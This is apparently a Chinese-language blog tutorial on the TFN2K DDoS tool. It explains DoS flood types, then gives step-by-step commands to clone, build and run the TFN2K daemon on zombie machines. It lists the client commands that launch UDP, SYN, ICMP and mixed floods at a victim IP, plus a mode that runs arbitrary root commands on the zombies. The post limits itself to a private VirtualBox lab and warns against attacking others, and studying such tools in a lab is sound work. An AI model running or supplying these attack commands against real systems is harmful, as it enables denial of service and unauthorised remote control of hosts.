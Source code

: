 ```yaml
---
title: "DDOS 工具 TFN2K 教學"
subtitle: ""
excerpt: "ddos tfn2k"
layout: post
author: "blueskyson"
header-style: text
tags:
  - linux
---
```


請使用自己的電腦測試，不要攻擊其他人或做犯罪行為

## DDOS 簡介

「阻斷服務攻擊」（denial-of-service attack, **DoS**）亦稱洪水攻擊，是一種網路攻擊手法，主要的目的是讓目標電腦的網路或者系統資源耗盡，使其服務中斷且無法正常存取

使用兩個或以上的電腦為攻擊端作為「**Zombies** 殭屍」向特定「**Victims** 目標」發動阻斷式服務攻擊時，便稱為「分散式阻斷服務攻擊」（distributed denial-of-service attack, **DDOS**）

阻斷服務攻擊可帶來的影響如 :
- 網路速度緩慢 
- 網站無法存取
- 垃圾郵件數量劇增
- 無線或有線網路連接異常斷開
- 長時間嘗試存取網站或任何網際網路服務時被拒絕
- 伺服器容易斷線，卡頓
- 對相關網域下的其他電腦造成網路連接癱瘓

## 攻擊方式

### 頻寬消耗型

目的在於放大流量限制受害者系統的頻寬；其特點是利用殭屍程式通過偽造的源 IP (即攻擊目標 IP) 向某些存在漏洞的伺服器傳送請求，伺服器在處理請求後向偽造的源 IP 傳送應答，由於這些服務的特殊性導致應答包比請求包更長，因此使用少量的寬頻就能使伺服器傳送大量的應答到目標主機上

- **UDP洪水攻擊（User Datagram Protocol floods）**  
  UDP是一種無連接協定，當封包通過UDP傳送時，所有的封包在傳送和接受時不需要進行驗證。當大量封包傳送給受害系統時，可能會導致頻寬飽和從而使得服務以及存取系統無法正常運作

- **死亡之Ping （Ping of Death）**  
  死亡之Ping是產生超過IP協定所能容忍的封包數，若系統沒有檢查機制，就會當機。傳送的IP封包大小不能超過65535字節，所以攻擊者會把封包分割後再傳送，而目標電腦接收到後會重組封包，就會遇到緩衝區溢出

### 資源消耗型

目的在消耗被攻擊者記憶體、處理器資源的攻擊手段

- **TCP/SYN洪水攻擊(Transmission Control Protocol SYN Flood)**  
  TCP是一種連接導向的協定，通常使用「三向交握」的形式：傳輸端發送SYN訊號要求連接，接收端收到後回傳SYN-ACK訊號表示收到請求，傳輸端收到後再發送ACK訊號表示連接成立。

  此種攻擊方式則是發送偽造的SYN訊號，讓接收端對假的位置回傳SYN-ACK訊號，因此接收端將永遠不會接收到ACK；此時接收端會有一部份記憶體被占用來嘗試重新發送SYN-ACK訊號。在大量封包的情況下會使接收端的記憶體和處理器資源耗盡

## TFN2K

**tfn2k** (Tribe Flood Network 2k Edition)：

用於向指定伺服器發送大量請求，以執行DDoS動作的工具。可進行的攻擊包括：  
TCP(SYN) Flood、UDP Flood、ICMP Flood、Smurf Attack。

## 搭建平台

四台 VirtualBox 虛擬機，三台作為 zombie，一台為 victim

- 系統: Ubuntu 20.04
- CPU: Intel i7-10750H x 2 core
- 記憶體: 4 GiB
- 網路1: 使用 "NAT" 讓虛擬機對外連線
- 網路2: 使用 "僅限主機介面卡" 讓虛擬機形成內部網路
  ![](https://raw.githubusercontent.com/blueskyson/image-host/master/tfn2k/2.png)

## 安裝 TFN2K

從 github 下載 TFN2K，進入 `src` 目錄，使用 `make` 編譯程式，編譯前需要同意使用聲明，並且要求設置 tfn2k 的密碼，這個密碼不需要記得，因為原始碼裡將密碼驗證的 flag 註解掉了。

```non
$ git clone https://github.com/mohammad0021/TFN2K
$ cd TFN2K/src
$ make
```

編譯完成後會有兩個執行檔，`td` (tfn-daemon)、`tfn` (tfn-client)。修改 `td` 的權限然後執行 `td`

```non
$ sudo chmod 755 td
$ sudo ./td
```

利用 `sudo ps -ef | grep tfn` 檢查 daemon 是否順利啟動

```non
$ sudo ps -ef | grep tfn
root        4586    1005  0 19:30 pts/0    00:00:00 tfn-daemon
lin         6988    3118  0 20:19 pts/0    00:00:00 grep --color=auto tfn
```

## TFN2K 使用方式

首先進入 TFN2K 的目錄

```non
$ cd TFN2K/src
```

將參與 ddos 的 zombie 的僅限主機介面卡 IP 儲存成文字檔，以換行字元分隔每個 IP:

```non
$ cat hosts.txt
192.168.56.110
192.168.56.111
192.168.56.112
```

假設受害者為 192.168.56.113，接下來用以下指令進行攻擊，每個指令以 `-c` 指定攻擊模式

- UDP flood  
  ```non
  $ sudo ./tfn -f hosts.txt -c 4 -i 192.168.56.113
  ```

- TCP/SYN flood  
  ```non
  $ sudo ./tfn -f hosts.txt -c 5 -i 192.168.56.113 -p 80
  ```

- ICMP/PING flood (死亡之 ping)  
  ```non
  $ sudo ./tfn -f hosts.txt -c 6 -i 192.168.56.113
  ```

- MIX flood (UDP/TCP/ICMP interchanged)  
  ```non
  $ sudo ./tfn -f hosts.txt -c 7 -i 192.168.56.113
  ```

當攻擊完成，使用以下指令來結束 hosts.txt 中所有 Zombie 的攻擊

```non
$ sudo ./tfn -f hosts.txt -c 0
```

以上便是 tfn2k 基本操作

---

假設 victim 不只一台，則 `-i` 參數後面使用格式 `victim1@victim2@...victimN@`，例如

```non
$ sudo ./tfn -f hosts.txt -c 7 -i 192.168.56.113@192.168.56.118@
```

使用 `-c 2` 可以更改封包大小，例如:

```non
$ sudo ./tfn -f hosts.txt -c 2 -i 4096
```

使用 `-c 10` 可以對遠端以 root 權限下指令，在原始碼中以 `system()` 實現

```non
$ sudo ./tfn -f hosts.txt -c 10 -i "mkdir test"
```

## 實測

**從攻擊開始後，Zombie 傳送的資料從 0 mb/s 暴增到 5 mb/s**

![](https://raw.githubusercontent.com/blueskyson/image-host/master/tfn2k/3.png)

**以兩台 zombie 、使用 ICMP flooding 攻擊為例，Victim 接收到的封包從 0 mb/s 增為 8 mb/s，ping www.google.com 的封包掉落率為 64%**

![](https://raw.githubusercontent.com/blueskyson/image-host/master/tfn2k/4.png)

**來回通訊延遲 rtt (ms)**

![](https://raw.githubusercontent.com/blueskyson/image-host/master/tfn2k/5.png)

**封包掉落率 (%)**

![](https://raw.githubusercontent.com/blueskyson/image-host/master/tfn2k/6.png)

## 參考資料

- [阻斷服務攻擊](https://zh.wikipedia.org/wiki/%E9%98%BB%E6%96%B7%E6%9C%8D%E5%8B%99%E6%94%BB%E6%93%8A)